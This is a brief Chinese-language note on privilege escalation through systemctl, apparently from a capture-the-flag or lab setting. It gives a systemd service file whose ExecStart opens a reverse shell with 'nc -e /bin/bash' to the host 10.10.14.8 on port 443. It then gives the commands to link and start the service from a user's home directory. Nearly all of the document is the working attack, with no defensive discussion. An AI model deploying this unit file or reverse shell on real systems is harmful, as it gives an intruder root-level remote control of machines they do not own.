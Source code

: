 # systemctl提权

写一个rong.service文件，包含以下内容

```clike
[Service]
Type=notify
ExecStart=/bin/bash -c 'nc -e /bin/bash 10.10.14.8 443'
KillMode=process
Restart=on-failure
RestartSec=42s

[Install]
WantedBy=multi-user.target
```

而后链接再启动

```clike
systemctl link /home/pepper/rong.service
systemctl start
```

‍
